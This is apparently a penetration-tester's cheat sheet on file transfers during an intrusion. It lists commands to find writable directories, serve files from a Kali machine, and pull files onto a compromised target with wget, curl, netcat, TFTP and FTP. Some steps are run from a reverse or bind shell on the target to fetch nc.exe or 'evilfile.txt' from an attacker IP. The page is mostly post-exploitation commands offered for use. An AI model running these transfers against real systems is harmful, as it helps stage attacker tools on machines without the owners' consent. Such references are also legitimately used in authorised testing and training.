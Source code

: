 ## File Transfers
#### Find writable directories in Linux
```
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;
```
#### To host files in Kali
```
python -m SimpleHTTPServer 80
```
#### To download files
```
wget http://attackingip/file.ext
# or
curl http://attackingip/file.ext > file.ext

```
#### Netcat File Transfer
```
# Setup a listener to receive file
nc -nlvp 55555 > file

# Now send the file
nc iptoreceivefile 55555 < file 
```
#### TFTP UDP Transfer
```
# Create directory to serve files
mkdir /tftp

# Start atftpd daemon and listen on UDP port 69 using /tftp as root
atftpd --daemon --port 69 /tftp

# Copy file to share to host directory
cp /usr/share/windows-binaries/nc.exe /tftp/

# In your reverse/bind shell on the target machine, change 10.11.1.140 to attacking ip
tftp -i 10.11.1.140 GET nc.exe
```
---
#### FTP File Transfer
On attacking machine, setup an ftp server
```
apt-get install pure-ftpd
```

Download and run the following setup file, it will create an ftp user 'bedford'
[setup-ftp](/setup-ftp)

Change user permissions, run file and set password on request
```
chmod 755
./setup-ftp
```

Copy and paste the following code into your Windows target bind/reverse shell
```
echo open 10.11.1.140 21> ftp.txt
echo user bedford>> ftp.txt
echo urpasswd>> ftp.txt
echo bin>> ftp.txt
echo GET evilfile.txt>> ftp.txt
echo bye>> ftp.txt
```
Now in your Windows bind/reverse shell run the ftp.txt file
`ftp -v -n -s:ftp.txt`

---
#### File Transfer using SSH
```
scp filename username@ipaddress
# Then enter password at prompt
```
